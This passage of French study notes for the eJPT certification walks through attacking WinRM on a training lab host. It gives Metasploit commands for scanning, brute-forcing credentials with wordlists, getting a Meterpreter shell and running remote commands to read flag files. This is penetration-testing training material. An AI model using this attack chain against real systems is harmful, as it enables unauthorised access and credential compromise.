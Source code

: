 
## 🎯 9. Cas d'usage spécifiques eJPT

### Scénario 1: WinRM découverte → brute force → RCE
```bash
# 1. Découverte WinRM
nmap --top-ports 7000 demo.ine.local
# Port 5985 trouvé

# 2. Énumération auth methods
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit
# Basic et Negotiate supportés

# 3. Brute force credentials
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit
# administrator:tinkerbell trouvé

# 4. Exploitation Meterpreter
use exploit/windows/winrm/winrm_script_exec
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit

# 5. Recherche flag
cd /
cat flag.txt
```

### Scénario 2: Exécution de commandes WinRM
```bash
# Test rapide commandes
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell

# Énumération système
set CMD whoami
exploit
set CMD systeminfo
exploit
set CMD "dir C:\"
exploit
set CMD "type C:\flag.txt"
exploit
```
